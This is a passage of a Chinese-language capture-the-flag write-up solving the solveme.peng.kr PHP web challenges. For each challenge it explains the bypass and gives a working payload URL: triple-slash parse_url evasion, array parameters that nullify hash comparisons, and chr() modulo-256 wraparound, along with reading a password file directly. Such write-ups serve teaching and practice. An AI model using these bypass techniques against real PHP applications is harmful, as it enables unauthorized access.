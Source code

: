 ```

    highlight_file(__FILE__);
```

>Note:
>
>parse_url() 是专门用来解析 URL 而不是 URI 的。不过为遵从 PHP 向后兼容的需要有个例外，对 file:// 协议允许三个斜线（file:///...）。其它任何协议都不能这样。

假如url是中带三个斜线就可以直接返回false，绕过验证，但是do_you_want_flag参数确实可以解析的    
payload: `http://urlfiltering.solveme.peng.kr///index.php?do_you_want_flag=yes` 


## Hash collision   
常见的绕过hash方法，使用数组变量，hash之后返回null  
payload: `http://hashcollision.solveme.peng.kr/?foo[]=asss&bar[]=wwww`

## array2string
```
<?php
    error_reporting(0);
    require __DIR__.'/lib.php';

    $value = $_GET['value'];

    $username = $_GET['username'];
    $password = $_GET['password'];

    for ($i = 0; $i < count($value); ++$i) {
        if ($_GET['username']) unset($username);
        if ($value[$i] > 32 && $value[$i] < 127) unset($value);
        else $username .= chr($value[$i]);

        if ($username == '15th_HackingCamp' && md5($password) == md5(file_get_contents('./secret.passwd'))) {
            echo 'Hello '.$username.'!', '<br>', PHP_EOL;
            echo $flag, '<hr>';
        }
    }

    highlight_file(__FILE__);
```
确实想了挺长时间  ]
password的路径给了，url输入直接读取出来`simple_passw0rd` 
![2018-03-19-22-53-14-2018319](http://or4d8nhvk.bkt.clouddn.com/2018-03-19-22-53-14-2018319.png)   
chr的参数在大于256的时候会自动取余，所以我们get了   
payload: `http://array2string.solveme.peng.kr/index.php?value[0]=305&value[1]=309&value[2]=372&value[3]=360&value[4]=351&value[5]=328&value[6]=353&value[7]=355&value[8]=363&value[9]=361&value[10]=366&value[11]=359&value[12]=323&value[13]=353&value[14]=365&value[15]=368&password=simple_passw0rd`  
ps:下标可以省略   

